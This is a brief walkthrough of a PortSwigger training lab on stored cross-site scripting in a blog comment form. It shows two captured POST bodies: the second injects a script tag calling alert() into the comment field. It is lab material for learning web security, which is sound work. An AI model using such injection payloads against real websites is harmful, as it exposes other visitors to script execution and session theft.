 # Stored XSS into HTML context with nothing encoded

## This lab contains a [stored cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/stored) vulnerability in the comment functionality.

## To solve this lab, submit a comment that calls the `alert` function when the blog post is viewed.

---

### step 1

`csrf=EmoyMhbu9LaNFmVBLnBV4Si0ATCL6Fz3&postId=1&comment=<p>hello</p>&name=hello&email=tes%40gmail.com&website=`

send request 302 Found

### step2

`csrf=EmoyMhbu9LaNFmVBLnBV4Si0ATCL6Fz3&postId=1&comment=<script>alert()</script>&name=<p>hello</p>&email=tes%40gmail.com&website=`

send request 302 Found
now reload page alert pop will com on each reload
